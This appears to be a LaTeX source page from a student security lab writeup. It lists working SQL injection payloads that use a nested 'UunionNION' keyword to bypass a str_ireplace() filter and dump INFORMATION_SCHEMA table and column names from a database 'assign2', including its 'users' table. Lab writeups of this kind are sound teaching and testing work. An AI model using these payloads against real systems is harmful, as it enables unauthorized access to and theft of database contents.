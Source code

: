 \documentclass{article}
\begin{document}
           \textbf{(a)\space \space \%' UunionNION All select TABLE\_TYPE,TABLE\_SCHEMA,table\_name FROM INFORMATION\_SCHEMA.TABLES\#}\\
             This attack vectors dumps the information related to TABLES and INFORMATION\_SCHEMA.\\
             Here,in attack vectors \textbf{UunionNION} is used in place of \textbf{UNION} to bypass \textbf{str\_ireplace()} function.
             \begin{figure}[H]
             \begin{center}
		    \texttt{[image: 5.png]}
		    \caption{Tables name and information schema}
		\end{center}
	\end{figure}
	
	\textbf{(b) \space \space \%' UunionNION All select TABLE\_TYPE,TABLE\_SCHEMA,table\_name FROM INFORMATION\_SCHEMA.TABLES where TABLE\_SCHEMA='assign2'\#}\\
	 This attack vector when entered in 'search name' box will gives us the name of tables in that database 'assign2'.\\ \\
	 \textbf{(c)\space \space\%' UunionNION SELECT TABLE\_SCHEMA,TABLE\_NAME,COLUMN\_NAME  FROM INFORMATION\_SCHEMA.COLUMNS WHERE TABLE\_SCHEMA = 'assign2' AND TABLE\_NAME = 'users'\#}\\
	  This attack vector will dump the Database name,table name and their columns name.\\
	  \begin{figure}[H]
	    \begin{center}
	      \texttt{[image: 6.png]}
	      \caption{Database name, Table name and Column names}
	    \end{center}
	\end{figure}
\end{document}
